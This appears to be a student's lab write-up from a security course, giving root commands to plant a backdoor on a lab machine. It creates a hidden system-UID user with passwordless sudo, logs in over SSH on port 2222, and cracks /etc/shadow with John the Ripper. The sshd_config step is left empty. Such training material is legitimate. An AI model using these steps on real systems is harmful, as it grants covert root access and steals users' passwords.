

Week 6: Advanced Bash - Owning the System
Step 1: Shadow People

 1.  Create a secret user named sysd. Make sure this user doesn't have a home folder created:

        root:~\ $ useradd --no-create-home sysd

 2.  Give your secret user a password:
        
        root:~\ $ passwd sysd

 3.  Give your secret user a system UID < 1000:

        root:~\ $ usermod -u 37 sysd

 4.  Give your secret user the same GID:

        root:~\ $ usermod -u 37 -g 37 sysd 

 5.  Give your secret user full sudo access without the need for a password:

        root:~\ $ visudo

   #includedir /etc/sudoers.d

        sysd ALL=(ALL) NOPASSWD:ALL
        
 6.  Test that sudo access works without your password: 
        
         $ su sysd
         $ sudo -k
         $ sudo -v
         $ sudo -l

Step 2: Smooth Sailing
 1.  Edit the sshd_config file:

Step 3: Testing Your Configuration Update
 1.  Restart the SSH service:
   
    root:~\ $ systemctl restart sshd

 2.  Exit the root account:
  
    root:~\ $ exit
    sysadmin:~\ $ exit

 3.  SSH to the target machine using your sysd account and port 2222:

    sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

 4.  Use sudo to switch to the root user:
    
    $ sudo su

Step 4: Crack All the Passwords
 1.  SSH back to the system using your sysd account and port 2222:

    root@scavenger-hunt:/# ssh sysd@192.168.6.105 -p 2222

 2.  Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
   
    $ sudo john /etc/shadow
    

